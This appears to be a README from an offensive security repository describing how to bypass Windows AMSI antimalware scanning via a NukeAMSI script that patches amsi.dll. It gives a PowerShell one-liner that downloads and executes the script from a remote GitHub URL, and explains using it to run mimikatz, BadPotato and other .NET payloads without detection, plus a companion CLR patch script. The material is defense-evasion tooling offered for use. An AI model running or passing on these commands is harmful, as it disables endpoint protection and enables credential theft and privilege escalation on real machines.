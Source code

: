 # Defense Evasion: AMSI Bypass

## How it work

This technique based on some methods to dealing with the AMSI (Antimalware Scan Interface) like exploiting the amsi.dll and/or relevent service.

Hence within succession we can bypass antimalware scan from modern AV, not only Windows but also others as most is using the same AMSI service.

## Methods

### NukeAMSI

#### What is this

A new attack that targeting to a bug in `amsi.dll` that allow user to write on some code address

#### Running

You can download script from [NukeAMSI.ps1](https://github.com/anonymous300502/Nuke-AMSI/blob/main/NukeAMSI.ps1) then run in powershell, or invoke by running:
```powershell
iex (iwr "https://raw.githubusercontent.com/anonymous300502/Nuke-AMSI/refs/heads/main/NukeAMSI.ps1" -UseBasicParsing).Content
```

Then we can running powershell script without being scanned by AMSI

#### Usage

- Powershell script (.ps1): We can directly run it
- Native PE Bynary: We can embed it into a powershell script like how they embed `mimikatz.exe` into [Invoke-Mimikatz.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)
- .NET PE Binary: 
    - I have tested this with [Invoke-BadPotato.ps1](https://github.com/Zanitas404/Invoke-BadPotato/blob/main/Invoke-BadPotato.ps1) and other .NET binary, but I always get this error
      ![image](https://github.com/user-attachments/assets/8db04ce3-3282-4db9-b203-b95f2d52901e)

    - Thanks to [Vixx's repo](https://github.com/V-i-x-x/AMSI-BYPASS/tree/main), I have done some research and successful deal with this problem by writing a script to patch it
    - Now we should run [Invoke-ClrBypass.ps1](Payloads/Invoke-ClrBypass/Invoke-ClrBypass.ps1) before running our .NET payload, for more detail please refer [this](Payloads/Invoke-ClrBypass/README.md)
